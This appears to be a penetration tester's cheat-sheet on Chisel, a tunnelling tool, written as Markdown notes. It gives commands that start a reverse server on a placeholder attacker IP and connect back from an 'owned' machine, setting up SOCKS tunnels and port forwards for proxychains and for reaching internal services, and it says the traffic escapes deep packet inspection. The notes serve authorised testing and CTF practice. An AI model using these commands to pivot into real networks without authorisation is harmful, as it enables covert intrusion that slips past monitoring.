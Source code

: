 # Chisel
if you get:


> /chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32` not found (required by ./chisel)
go [here](https://github.com/jpillora/chisel/releases) for the appropriate release.


Chisel makes it possible to do HTTP tunneling encrypted such that deep packet inspection won't be able to look into the details of the traffic.

We run a chisel server on `${ATTACKER_IP}` which allows us to connect back from an owned machine:

```
chisel server --port ${ATTACKER_PORT} --reverse
```


From the `${OWNED_IP0}`, run 

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:socks
```
This creates a SOCKS tunnel (bound to 1080 by default). <--- USE 1080 as proxy port, not `${ATTACKER_PORT}`. Also when setting up the proxy in the browser!

If you want it to not block your current shell, do:

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:socks > /dev/null 2>&1 &
```

If you don't want to use port 1080, do:

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:${SOME_PORT}:socks
```

now, use `${SOME_PORT}` as the socks proxy port.


Once the client and server is setup, we can access targets from the point of view of `${OWNED_IP0}` by using proxychains4:

Add to proxychains4.conf:
```
socks5 127.0.0.1 1080
```

```
proxychains4 -f proxychains4.conf ${SOME_COMMAND} 
```

## Local port forward with chisel

if you want to expose a single port on an owned machine `IP0`, you can do:


```
./chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:${ATTACKER_PORT1}:${OWNED_IP}:${OWNED_PORT}
```

This allows traffic to go between `$ATTACKER_PORT1` and `${OWNED_IP}:${OWNED_PORT}`.
For exposing a local port on a machine do:

```
./chisel client ${ATTACKER_IP}:3333 R:9000:127.0.0.1:8000
```
Now, you can access the website internally exposed on `127.0.0.1:8000` on the target machine by going to `localhost:9000` in firefox.
